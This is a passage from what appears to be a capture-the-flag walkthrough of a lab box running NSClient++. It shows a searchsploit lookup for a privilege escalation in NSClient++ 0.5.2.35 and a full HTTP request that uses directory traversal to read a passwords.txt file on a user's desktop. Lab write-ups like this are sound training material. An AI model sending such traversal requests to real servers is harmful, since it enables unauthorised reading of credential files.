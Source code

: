 There's a TLS server on 8443. Normally with a cert I'd get a hostname
and potentially look for vhosts, but this certificate is just for
localhost.

#### Site

The site is an instance of NSClient++, an agent designed to do
monitoring:

![](/img/image-20200412203945417.png)

It seems pretty broken here. Visiting in Cromium (instead of Firefox)
does give a log in (some of the time):

![](/img/image-20200413100936248.png)

Getting this website to work was quite frustrating. Like I said above, I
had much better success in Chromium than I did in Firefox, but even
then, it was not stable.

#### Vulnerabilities

There is a known vulnerability in NSClient++ 0.5.2.35:



    root@kali# searchsploit nsclient
    ----------------------------------------------- ----------------------------------------
     Exploit Title                                 |  Path
                                                   | (/usr/share/exploitdb/)
    ----------------------------------------------- ----------------------------------------
    NSClient++ 0.5.2.35 - Privilege Escalation     | exploits/windows/local/46802.txt
    ----------------------------------------------- ----------------------------------------
    Shellcodes: No Result



It's a local privesc because with a shell on the box, I can get the
admin plaintext password from the config files, and then login and
create a job to get a shell. I'll keep this in mind.

## Shell as nadine

### Get Passwords

I first tried to read the NSClient++ config file using the directory
traversal vulnerability, but it didn't work.

I know from the FTP note that there is a file with passwords at
`C:\users\nathan\desktop\passwords.txt`. I'll use the directory
traversal vulnerability to try to read that file, and it works:



    GET /../../../../../../../../../../../../users/nathan/desktop/passwords.txt HTTP/1.1
    Host: 10.10.10.184
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: dataPort=6063
    Upgrade-Insecure-Requests: 1
